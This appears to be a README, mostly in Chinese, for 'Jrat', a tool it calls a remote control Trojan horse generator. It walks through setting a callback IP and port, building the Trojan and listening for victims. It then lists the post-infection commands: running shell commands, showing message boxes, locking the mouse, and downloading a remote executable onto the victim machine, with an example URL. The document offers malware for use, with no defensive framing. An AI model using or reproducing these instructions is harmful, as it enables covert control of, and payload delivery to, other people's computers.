 #&nbsp;Jrat
Jrat&nbsp;is&nbsp;a&nbsp;remote&nbsp;control&nbsp;Trojan&nbsp;horse&nbsp;generator.<br>
使用方法：<br>
在“Jrat>>”阶段可用的命令有：lhost（上线IP），lport（上线端口），port（监听端口），save（生成木马），run（开始监听）<br>
例如：Jrat>>&nbsp;lhost&nbsp;127.0.0.1&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;lport&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;port&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;save&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;run<br>
以上步骤是生成一个连接到127.0.0.1，端口为8808的木马，然后开始监听8808端口并等待木马上线<br>
木马上线后，程序来到第二阶段“Command>>”阶段，此阶段中可用的命令有：shell+cmd命令，msgbox+提示信息，clip+true/false（锁定/解锁鼠标），download+link+name（远程下载文件）<br>
例如：Command>>&nbsp;shell&nbsp;start&nbsp;C:&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;msgbox&nbsp;Hello&nbsp;World!&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;clip&nbsp;true&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;download&nbsp;http://baidu.com/1.exe&nbsp;1.exe<br>
上述命令时，先打开C盘，然后弹出一个对话窗口，显示“Hello&nbsp;World!”，接着鼠标被锁住，最后远程下载一个链接为“http://baidu.com/1.exe”的文件<br>
